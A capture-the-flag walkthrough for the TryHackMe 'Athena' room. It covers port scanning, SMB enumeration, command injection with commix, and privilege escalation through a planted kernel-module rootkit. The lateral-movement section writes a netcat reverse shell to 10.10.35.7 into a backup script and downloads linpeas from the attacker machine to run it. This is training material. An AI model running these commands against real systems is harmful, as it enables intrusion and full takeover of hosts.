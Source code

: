 # Athena

**Room Link:** [https://tryhackme.com/r/room/4th3n4](https://tryhackme.com/r/room/4th3n4)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/445 - SMB**

**Kali**

```
smbclient \\\\$VICTIM\\public
prompt
mget *
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/80 - HTTP**

#### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

### Shell #1

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/commixproject/commix.git commix
cd commix/
python commix.py -r ../request.txt 
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Shell #2

**Kali**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

### **LinPeas**

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 82
```

**Victim**

```
cd /tmp/
wget http://$KALI:82/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1338
```



**Victim**

```
echo '#!/bin/bash' > /usr/share/backup/backup.sh
echo "/usr/bin/nc 10.10.35.7 1338 -e /bin/bash" >> /usr/share/backup/backup.sh
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Full TTY

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim(athena)**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
cd /mnt/.../secret/
modinfo venom.ko
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(athena)**

```
kill -57 271
id
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

